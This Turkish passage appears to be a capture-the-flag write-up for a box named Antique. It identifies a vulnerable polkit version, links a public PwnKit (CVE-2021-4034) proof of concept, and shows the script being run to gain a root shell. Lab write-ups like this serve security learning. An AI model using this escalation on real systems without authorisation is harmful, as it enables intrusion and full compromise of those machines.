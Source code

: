 Önemli olan şu:

```
Version: 0.105-26ubuntu1.1
```

Datadog gönderisindeki bu tabloya göre, bu Ubuntu 20.04 focal'daki son savunmasız sürümdür:

![Pasted image 20250208175104.png](/img/user/resimler/Pasted%20image%2020250208175104.png)

#### Exploit

Bu kutu aslında [PwnKit](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)'e karşı savunmasız. Bir POC exploit indireceğim (Joe [Ammond](https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py)'dan bunu beğendim) ve Antique'e yükleyeceğim. Oradan, script'i çalıştırmak kadar basit:

```
lp@antique:/dev/shm$ python3 CVE-2021-4034.py
[+] Creating shared library for exploit code.
[+] Calling execve()
# id
uid=0(root) gid=7(lp) groups=7(lp),19(lpadmin)
```


